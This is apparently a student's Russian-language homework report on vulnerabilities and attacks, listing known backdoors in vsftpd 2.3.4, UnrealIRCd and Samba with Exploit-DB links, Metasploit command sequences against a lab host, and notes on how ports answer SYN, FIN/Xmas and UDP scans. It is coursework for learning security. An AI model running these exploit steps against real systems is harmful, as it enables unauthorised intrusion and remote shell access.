 # Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Петровский Дмитрий`


### Инструкция по выполнению домашнего задания

   1. Сделайте `fork` данного репозитория к себе в Github и переименуйте его по названию или номеру занятия, например, https://github.com/имя-вашего-репозитория/git-hw или  https://github.com/имя-вашего-репозитория/7-1-ansible-hw).
   2. Выполните клонирование данного репозитория к себе на ПК с помощью команды `git clone`.
   3. Выполните домашнее задание и заполните у себя локально этот файл README.md:
      - впишите вверху название занятия и вашу фамилию и имя
      - в каждом задании добавьте решение в требуемом виде (текст/код/скриншоты/ссылка)
      - для корректного добавления скриншотов воспользуйтесь [инструкцией "Как вставить скриншот в шаблон с решением](https://github.com/netology-code/sys-pattern-homework/blob/main/screen-instruction.md)
      - при оформлении используйте возможности языка разметки md (коротко об этом можно посмотреть в [инструкции  по MarkDown](https://github.com/netology-code/sys-pattern-homework/blob/main/md-instruction.md))
   4. После завершения работы над домашним заданием сделайте коммит (`git commit -m "comment"`) и отправьте его на Github (`git push origin`);
   5. Для проверки домашнего задания преподавателем в личном кабинете прикрепите и отправьте ссылку на решение в виде md-файла в вашем Github.
   6. Любые вопросы по выполнению заданий спрашивайте в чате учебной группы и/или в разделе “Вопросы по заданию” в личном кабинете.
   
Желаем успехов в выполнении домашнего задания!
   
### Дополнительные материалы, которые могут быть полезны для выполнения задания

1. [Руководство по оформлению Markdown файлов](https://gist.github.com/Jekins/2bf2d0638163f1294637#Code)

---

### Задание 1

![Описание](./img/1.1.png)
![Описание](./img/1.2.png)


1. vsftpd 2.3.4 – Backdoor Command Execution (CVE-2011-2523)
Описание: В этой версии VSFTPD есть бэкдор, позволяющий злоумышленнику получить shell на сервере, отправив специальную последовательность символов в поле имени пользователя.

Exploit-DB: https://www.exploit-db.com/exploits/17491

Команда для эксплуатации (в Metasploit):

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.130.70
exploit
2. UnrealIRCd 3.2.8.1 – Backdoor (CVE-2010-2075)
Описание: В некоторых сборках UnrealIRCd был встроен бэкдор, позволяющий выполнить произвольные команды.

Exploit-DB: https://www.exploit-db.com/exploits/16922

3. Samba (usermap_script) – RCE (CVE-2007-2447)
Описание: Уязвимость в Samba позволяет выполнить код через неправильную обработку скриптов в smb.conf.

Exploit-DB: https://www.exploit-db.com/exploits/16320

msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.130.70
exploit

---

### Задание 2

![Описание](./img/2.1.png)
![Описание](./img/2.2.png)
![Описание](./img/2.3.png)
![Описание](./img/2.4.png)
![Описание](./img/2.5.png)
![Описание](./img/2.6.png)
![Описание](./img/2.7.png)
![Описание](./img/2.8.png)
![Описание](./img/2.9.png)

1. Чем отличаются режимы сканирования?

| Заголовок | |
| --------------------- | -------------------------- |
| Строка 1, столбец 1 | Строка 1, столбец 2 |

2. Как отвечает сервер?
SYN: Открытый порт → SYN-ACK, закрытый → RST.

FIN/Xmas: Открытый порт → молчит, закрытый → RST.

UDP: Открытый порт → молчит или данные сервиса, закрытый → ICMP Port Unreachable.